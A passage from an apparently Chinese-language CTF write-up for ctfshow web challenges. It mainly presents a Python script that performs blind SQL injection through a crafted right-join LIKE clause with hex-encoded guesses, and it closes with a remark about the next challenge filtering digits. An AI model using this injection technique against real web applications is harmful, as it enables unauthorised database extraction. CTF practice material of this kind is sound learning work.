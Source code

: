 只返回右表，因此根据这个就可以去盲注出答案

```python
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/4/8 21:24
# blog: www.wlhhlc.top
import requests
import binascii

def to_hex(s):
    # 字符串转16进制
    str_16 = binascii.b2a_hex(s.encode('utf-8'))
    str_16 = bytes.decode(str_16)
    res = str_16.replace("b'","").replace("'","")
    return res

url = "http://390a39fe-e6e7-4153-952a-f9e3606a2378.challenge.ctf.show/select-waf.php"
str = "0123456789abcdefghijklmnopqrstuvwxyz{}-"
flag = "ctfshow"
for i in range(0,666):
    for j in str:
        result = "0x" + to_hex(flag + j + "%")
        data = {"tableName":"ctfshow_user as a right join ctfshow_user as b on b.pass like {0}".format(result)}
        res = requests.post(url=url, data=data)
        if "$user_count = 43" in res.text:
            flag += j
            print(flag)
            if j=="}":
                exit()
            break

```

### web185，186

![截图](2eb2a9304491c92abbc8f9270c75ae9a.png)

与上一题相比，过滤了数字，所以十六进制不行了
